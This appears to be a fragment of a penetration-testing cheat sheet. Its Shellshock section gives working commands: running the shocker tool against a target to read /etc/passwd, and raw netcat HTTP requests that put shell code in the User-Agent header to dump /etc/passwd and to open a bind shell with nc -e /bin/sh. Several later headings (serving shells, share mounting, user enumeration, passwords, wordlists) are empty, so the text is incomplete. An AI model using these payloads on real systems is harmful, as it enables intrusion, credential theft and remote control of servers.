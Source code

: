 **Exploiting Shellshock**

A tool to find and exploit servers vulnerable to Shellshock:

```
git clone https://github.com/nccgroup/shocker
```

```
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
```

**cat file (view file contents)**

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

**Shell Shock run bind shell**

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

**Shell Shock reverse Shell**

### Simple Local Web Servers <a href="#simple-local-web-servers" id="simple-local-web-servers"></a>

Python local web server command, handy for serving up shells and exploits on an attacking machine.

How to mount NFS / CIFS, Windows and Linux file shares.

### HTTP / HTTPS Webserver Enumeration <a href="#http--https-webserver-enumeration" id="http--https-webserver-enumeration"></a>

### Packet Inspection <a href="#packet-inspection" id="packet-inspection"></a>

### Username Enumeration <a href="#username-enumeration" id="username-enumeration"></a>

Some techniques used to remotely enumerate users on a target system.

#### SMB User Enumeration <a href="#smb-user-enumeration" id="smb-user-enumeration"></a>

#### SNMP User Enumeration <a href="#snmp-user-enumeration" id="snmp-user-enumeration"></a>

### Passwords <a href="#passwords" id="passwords"></a>

#### Wordlists <a href="#wordlists" id="wordlists"></a>
